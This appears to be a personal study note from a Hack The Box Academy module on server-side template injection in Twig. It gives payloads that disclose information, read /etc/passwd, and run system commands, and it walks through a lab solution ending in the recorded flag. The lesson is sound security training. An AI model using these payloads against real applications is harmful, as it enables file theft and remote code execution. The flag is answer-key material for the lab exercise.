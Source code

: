 ﻿---
sticker: lucide//book-template
---
In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in theÂ `Jinja`Â template engine. This section will discuss exploiting SSTI in theÂ `Twig`Â template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

---

## Information Disclosure

In Twig, we can use theÂ `_self`Â keyword to obtain a little information about the current template:


```twig
{{ _self }}
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared toÂ `Jinja`.

---

## Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web frameworkÂ [Symfony](https://symfony.com/)Â defines additional Twig filters. One of these filters isÂ [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt)Â and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such asÂ `system`. We can pass an argument to this function by using Twig'sÂ `filter`Â function, resulting in any of the following SSTI payloads:


```twig
{{ ['id'] | filter('system') }}
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

---

## Further Remarks

This module explored exploiting SSTI in theÂ `Jinja`Â andÂ `Twig`Â template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as theÂ [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

# Question
---
![Pasted image 20250212132712.png](../../../../IMAGES/Pasted%20image%2020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![Pasted image 20250212141640.png](../../../../IMAGES/Pasted%20image%2020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![Pasted image 20250212141706.png](../../../../IMAGES/Pasted%20image%2020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![Pasted image 20250212141749.png](../../../../IMAGES/Pasted%20image%2020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![Pasted image 20250212141817.png](../../../../IMAGES/Pasted%20image%2020250212141817.png)

Flag is: 

```
HTB{5034a6692604de344434ae83f1cdbec6}
```
